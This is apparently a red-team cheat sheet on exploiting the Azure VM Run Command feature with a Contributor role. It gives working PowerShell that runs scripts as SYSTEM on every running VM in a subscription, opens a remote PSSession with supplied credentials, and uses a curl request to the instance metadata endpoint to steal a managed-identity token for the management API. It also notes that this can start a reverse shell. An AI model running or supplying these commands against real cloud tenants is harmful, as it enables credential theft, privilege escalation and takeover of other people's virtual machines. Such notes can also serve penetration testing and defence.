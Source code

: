 # Exploiting Run Command Feature

## Requirements: Contributor account/role access

### The Run Command feature of Azure VMs is a platform feature used to run scripts on VMs remotely using the VM agent. It can be used to run PowerShell scripts on Windows VMs and shell scripts on Linux VMs. It is generally used by administrators or developers to quickly diagnose and remediate VM access and network issues and get the VM back to a good state.

### Here is some information to keep in mind when exploiting this feature:

- Scripts run as the System account on Windows VMs and as an elevated user (typically root) on Linux VMs.

- We can only run one script at a time through the feature.

- Interactive scripts that prompt for user information are not supported.

- Outbound connectivity from the VM to Azure public IP addresses on port 443 is required to return the results of the script.

# 1) Azure Portal

 - Go to the "Virtual Machine" blade

 - Run command has prebuilt commands that can be run in the portal (You can run your own custom commands ofc)

 - Select "RunPowerShellScript" or "RunShellScript" for Linux (You can run your own custom commands for both Windows and Linux, as SYSTEM or root)

# 2) Az Powershell module

    $VMs = Get-AzVM -Status | where {($_.PowerState -EQ "VM running") -and ($_.StorageProfile.OSDisk.OSType -eq "Windows")}

    $VMs | select ResourceGrouName,Name (List the running Windows VMs and cast them to the VMs variable)

    echo "whoami" > whoami.ps1

    $VMs | Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1 (Run your powershell script on all VMs in the subscription)

Access the VM

    $password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential('<USER>', $Password)
    $sess = New-PSSession -ComputerName <VM IP ADDRESS> -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
    Enter-PSSession $sess

# 3) Azure REST APIs

    curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?apiversion=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' | jq (Obtain an access token that can be used to access the Azure management API endpoint)

    $mgmtToken = "TOKEN_HERE"

    Invoke-AzVMCommandREST -commandToExecute "whoami > test.txt" -managementToken $mgmtToken TENANT_ID (Run a command via REST API method. You can use this to start a reverse shell on target)
